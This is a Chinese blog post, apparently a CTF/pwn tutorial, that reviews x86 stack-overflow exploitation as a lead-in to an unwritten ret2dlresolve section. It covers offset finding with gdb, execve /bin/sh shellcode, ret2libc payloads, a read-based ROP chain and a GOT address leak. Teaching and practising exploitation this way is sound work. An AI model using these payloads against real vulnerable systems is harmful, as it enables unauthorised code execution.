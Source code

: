 ```yaml
---
layout: post
title: " 从壹开始做ret2dlresolve "
date: 2019-04-02
excerpt: "就是从怎么找offset开始说的意思（正在施工）"
tags: [pwn]
feature:  https://p0.ssl.qhimg.com/t01a969a8d998ad5508.png
comments: true
---
```



# 从壹开始做ret2dlresolve


注意：full relro 的binary 是不会延迟绑定的……也意味着无法修改got表……

先上一张图

![](https://raw.githubusercontent.com/RhythmMark/RhythmMark.github.io/master/_posts/pictures/ELF_dlresolve.jpg)

好的我已经画得很清楚了，告辞（×）


时隔差不多半年没做pwn，我觉得我有必要回忆一下做pwn题基础知识……

写exp一般要用到的：

```python
from pwn import *
context.log_level = 'debug'
#io = remote('xxx.xxx.xxx.xx',xxxxx)
io = process('./binary')
...
gdb.attach(io)
...
```

下面用 **五条payload** 来回忆栈溢出

### 0x1（返回地址至flag） 的场合

``payload = 'A'*(0x108+0x04)+pack(0x0804856B)``

其中``0x108``是binary给输入分配的空间的大小，用ida看的话一般是``sub     esp, 108h``这里的那个数字……``0x04``是``ebp``，不知道ebp是什么的去学习下函数调用栈……

这两个加起来，即``0x108+0x04``的大小，下称``offset``或``pattern``或``padding``，意为到返回地址的偏移，达成伪造返回地址的填充之类的……

一般来说……

``gdb binary``
用gdb加载要pwn的binary

``pattern create 200``
创建一个长度为200的pattern

然后会出现

``AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA``

复制下来……

``r``运行……停在等待用户输入的地方……

粘贴pattern……``c``继续运行……

然后……binary就会崩溃……出现

```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
00x41414641 in ?? ()
gdb-peda$ 
```

之类的……

（因为``0x41414641``应该是返回地址……binary正准备去执行那个地址的命令……但是被填充了奇怪的东西上去……所以就崩了……）

然后……提取里面的``0x41414641``……

执行``pattern offset 0x41414641``……

会出现……``1094796865 found at offset: 44``


那……offset就是44了……（已包含ebp……好像越说越乱（×））

或者……用Cyclic pattern的话……可能显得没那么蠢……whatever

所以``pack(0x0804856B)``就是我们伪造的返回地址。发送这条payload，没开什么保护、一切顺利的话，就会执行``pack(0x0804856B)``处的命令。

### 0x2（返回地址至shellcode）（已知buf位置） 的场合

``payload = shellcode + 'A' * (44 - len(shellcode)) + p32(ret)``

类似0x1，``shellcode + 'A' * (44 - len(shellcode))``都是``pattern``，``ret``应该是buf的地址，而buf在我们进行输入之后，里面的内容就是``payload = shellcode + 'A' * (44 - len(shellcode)) + p32(ret)``，所以会执行shellcode……

shellcode可以用：

```
shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
"\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
```

### 0x03 (return-to-libc attack)（已知gets地址） 的场合

```
payload = padding + p32(systemaddr) + p32(ret)                 + p32(binshaddr)
          pattern    system()地址      执行system()后的返回地址      system()的参数         
```

因为当调用一个函数的时候，栈一般长这样：

``[局部变量|ebp|返回地址|参数]``

我们把被害函数（就请求用户输入的那个……read之类的）的返回地址伪造成``systemaddr``之后，就会执行``system()``，此时binary就以为自己是在调用``system()``

就以为栈里面的数据就是：
```
system()的局部变量  ebp                      返回地址           参数 
padding         +       p32(systemaddr) +  p32(ret)        + p32(binshaddr)
                             ↑
```
第一行是binary误以为的，第二行是我们伪造的，第三行是表示“这是正在执行这条命令时候的示意图”……

所以这个payload会让binary执行``system("/bin/sh")``√

注：因为``int system(const char *command)``，所以参数那里是字符串地址而不是字符串

### 0x04 未知gets地址，需要别的ROP 的场合

注：buf应该在一个 **可读可写可执行** 的地方

```
                        read()      |read的返回地址|   |   read   的    参    数    |
payload1 = pattern + p32(sys_read) +    p32(buf)    +  p32(0) + p32(buf) + p32(0x80)

payload2 = shellcode

```

首先read函数：``ssize_t read(int fd, void * buf, size_t count);``

因此这两个payload，发送``payload1``之后，binary执行``read(0,buf,0x80)``，即从文件标识符为0的标准输入中，获取80个字节长度的内容，将其读入buf这个地址中。

此时会等待用户输入，然后我们发送payload2，``shellcode``。

而read函数的返回地址正是``buf``的地址，因此buf上的``shellcode``会被执行。

### 0x05 开了NX+ASLR，需要先泄露puts在got表中的地址，再进行ret2libc 的场合

这里只说怎么泄露puts在got表中的地址

注1：ASLR 会使堆、栈、libc的地址发生变化，但它不负责代码段以及数据段的随机化工作，这项工作由 PIE 负责，而PIE只有在ASLR开启之后才会生效。（所以puts函数的地址可以在ida里找……这就是下面payload中``puts_addr_ida``的意思（。））

注2：即使程序有 ASLR 保护，也只是针对于地址中间位进行随机，最低的 12 位并不会发生改变。所以如果我们知道 libc 中某个函数的地址，那么我们就可以确定该程序利用的 libc。进而我们就可以知道 system 函数的地址。

注3：由于可能会有延迟绑定，因此泄露的函数必须已被使用，不然got表中存放的是puts@plt下一条指令的地址……好像回到正题了

这里只给出泄露payload：

``payload = pattern + p32(puts_addr_ida)+rett+p32(puts_got)``

rett用main函数地址就行了，也是在ida里找

接下来就跟0x03差不多了

我觉得复习得差不多了，下面开始dlresolve。









